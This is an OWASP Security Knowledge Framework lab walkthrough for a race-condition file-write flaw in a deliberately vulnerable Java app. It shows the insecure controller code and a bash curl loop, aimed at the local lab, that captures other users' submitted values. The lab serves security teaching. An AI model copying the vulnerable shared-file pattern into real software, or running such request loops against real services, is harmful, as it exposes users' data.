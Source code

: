 # Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-race-condition-file-write
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](../../.gitbook/assets/python/RaceCondition-file-write/1.png)

Let's try:

![](../../.gitbook/assets/python/RaceCondition-file-write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](../../.gitbook/assets/python/RaceCondition-file-write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```java
public class RaceConditionController {
  @GetMapping("/{value}")
  public ResponseEntity<Object> downloadFile(@PathVariable String value, Model model) throws IOException {
    FileWriter fileWriter = new FileWriter("shared-file.txt", false);
    fileWriter.write(value);
    fileWriter.close();
    File file = new File("shared-file.txt");
    InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
    HttpHeaders headers = new HttpHeaders();
    headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
    headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
    headers.add("Pragma", "no-cache");
    headers.add("Expires", "0");
    ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
        .contentType(
            MediaType.parseMediaType("application/txt"))
        .body(resource);

    return responseEntity;
  }
}
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```java
InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
```

and the response:

```java
HttpHeaders headers = new HttpHeaders();
headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
headers.add("Pragma", "no-cache");
headers.add("Expires", "0");
ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
    .contentType(MediaType.parseMediaType("application/txt"))
    .body(resource);
return responseEntity;
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](../../.gitbook/assets/python/RaceCondition-file-write/4.png)

If we look in the logs we will see:

![](../../.gitbook/assets/python/RaceCondition-file-write/5.png)

![](../../.gitbook/assets/python/RaceCondition-file-write/6.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
